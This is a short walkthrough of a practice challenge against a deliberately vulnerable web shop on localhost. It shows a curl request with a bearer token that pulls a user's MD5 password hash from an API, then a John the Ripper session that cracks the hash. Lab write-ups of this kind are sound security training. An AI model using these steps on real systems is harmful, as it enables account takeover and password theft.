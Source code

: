After obtaining admin's password by simply Googling the hash, I wanted to
do something a little more interesting this time around.

First, we need to grab Jim's password hash:

```
$ curl -s 'http://localhost:3000/api/Users/2' -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBqdWljZS1zaC5vcCIsInBhc3N3b3JkIjoiMDE5MjAyM2E3YmJkNzMyNTA1MTZmMDY5ZGYxOGI1MDAiLCJjcmVhdGVkQXQiOiIyMDE4LTAxLTA0IDE0OjI0OjQxLjAyNSArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDE4LTAxLTA0IDE0OjI0OjQxLjAyNSArMDA6MDAifSwiaWF0IjoxNTE1MDgzOTQxLCJleHAiOjE1MTUxMDE5NDF9.GNlwhCE34Hqbj4Tqs1hAdcp7SPwEZuoAtHsnbbOHcvpmJF9-CsV9sPXU5Fg2RBV3chyuQbcTPev1uzVdHGdt_vunzJhtl2PhYqLBB3e3dF8ah5sFbAsiRtFuHjOYOf5QsiiXl4lzx36QCaduWNFnfR15YRvtWq6srQT7gYJlNjE' | python -mjson.tool
{
    "data": {
        "createdAt": "2018-01-04T18:58:03.757Z",
        "email": "jim@juice-sh.op",
        "id": 2,
        "password": "e541ca7ecf72b8d1286474fc613e5e45",
        "updatedAt": "2018-01-04T18:58:03.757Z"
    },
    "status": "success"
}
```

Alright, let's put `e541ca7ecf72b8d1286474fc613e5e45` in `jim-hash.txt`.

Let's try and simply brute force this password...

[John the Ripper](http://www.openwall.com/john/) is a great, simple password
cracker.

Remember, the admin password was stored as a simple MD5 hash. We can use
this information to start cracking with `john`:

```
$ ./run/john --format=raw-MD5 jim-hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:02:24  3/3 0g/s 46396Kp/s 46396Kc/s 46396KC/s plkbb074..plk3sa90
...
ncc-1701         (?)
1g 0:01:09:42 DONE 3/3 (2018-01-04 13:04) 0.000239g/s 47605Kp/s 47605Kc/s 47605KC/s ncc-15pa..ncc-175h
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

`ncc-1701` it is! Coming in at a little over an hour, it's probably best to
stick with other methods unless you know a password is trivially simple.
